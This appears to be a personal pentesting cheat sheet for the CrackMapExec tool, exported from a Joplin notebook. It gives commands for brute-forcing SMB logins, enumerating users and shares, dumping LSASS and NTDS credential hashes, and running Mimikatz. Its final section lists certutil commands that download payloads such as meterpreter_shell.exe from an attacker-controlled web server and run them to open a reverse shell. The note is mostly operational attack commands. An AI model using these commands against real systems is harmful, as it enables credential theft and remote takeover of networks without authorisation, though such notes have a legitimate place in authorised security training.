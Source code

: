 CrackMapExec

crackmapexec help: https://en.hackndo.com/remote-lsass-dump-passwords/

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M lsassy

https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec/

# Network Enumeration

# Protocols

SMB, SSH, mssql, ldap, winrm

# SMB

## Bruteforce usernames and passwords against SMB

> crackmapexec smb &lt;IP&gt; -u &lt;usernamefile&gt; -p &lt;passwordfile&gt;

![0ef478452fcf630079a336e26bf0101b.png](:/1502174a0f18498d934cf6c67323155a)

Pwn3d only prints out if the user is a domain admin;

- Can use psexec or smbexec to get shell

--continue-on-success : continues to test users and passwords after getting a successful hit on one

## Enumerate Shares

> crackmapexec smb &lt;IP&gt; -u '&lt;username&gt;' -p '&lt;password&gt;' --shares

![bd6b1ca32bc7989e2f0dcf3968fbc8c9.png](:/36b4d86d6b5940b88eb393da74a1e75d)

## Other enumerations

- --disks : enumerate disks
- --users: enumerate usernames
    - Must specify the domain controller IP; cannot use a different server
    - ![0eb03ea88d9458febe05546f4c208c88.png](:/20c24ad425d44eccb64323d969aecf00)
- --sessions : active logon sessions
- --groups : enumerate groups
    - ![50af41d7f3daf7fc87203dbef36e9881.png](:/f068bc8a86de4db495f8e5a87282623e)
- asd

## See Password Policy

use --pass-pol

See the password policy of the user

![722fff211d2b6003e15cf56a19a21a84.png](:/08826853a5344c57aea0ad0248c0e940)

# Active Directory

## Credential gathering

Methods to obtain hashes

![2d463aba0948baf828984cc1ba691755.png](:/a095bfd81d244f74b0fe0a7f783908e8)

drsuAPI is the default for --ntds; vss = shadow copy

NTDS hashes

![c41ada05843cc4565c479f0c7242930d.png](:/2c7bac5e138c450b8db40f50d42102da)

## Using Module

To list modules, use the -L flag

![f6f4c616f15fe2665f558dbab6ce7155.png](:/93757132520546ee9969dfdca2d61d52)

For help, use the flag --options

### Mimikatz

![56ae3ef3aa4856ddf3f44aa34636febc.png](:/8660d4639f51467fa3682e9fe0decc28)

Make sure to state -u and -p for it to work

Example

crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@55w0rd!' -M mimikatz -o COMMAND='privilege::debug'

![dfd3e2d45f9f38dbdec420c4b2599ef5.png](:/fb76d027d7194f6bad7ac6108333d1f6)

# Execute System Command (To get Reverse Shell)

![a7672b06a15243b1861a3e34750b3da2.png](:/1ed264f0296c44348176e9a7071b686d)

E.g. we have a payload and have opened a web server, and we have setup a multi/handler to get the reverse shell

> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.1.2:8088/meterpreter_shell.exe meterpreter\_shell.exe && cmd /c meterpreter\_shell.exe'
> 
> crackmapexec smb 192.168.1.58 -u 'Administrator' -p 'P@wsw0rd1' -x 'certutil -urlcache -f http://192.168.119.168:5001/rshell.exe rshell.exe && cmd /c rshell.exe'
> 'certutil -urlcache -f http://192.168.49.154/shell.exe shell.exe && cmd /c shell.exe'
> \# Tried powershell reverse shell but it doesn't work

![0b7da67312474b101094faa914a94067.png](:/df955198c3f448028aa960aa6bc61bae)

id: 675162c6268c4652933f50981ec28893
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2022-02-03T02:58:35.296Z
updated_time: 2022-05-19T13:52:02.199Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-02-03T02:58:35.296Z
user_updated_time: 2022-05-19T13:52:02.199Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1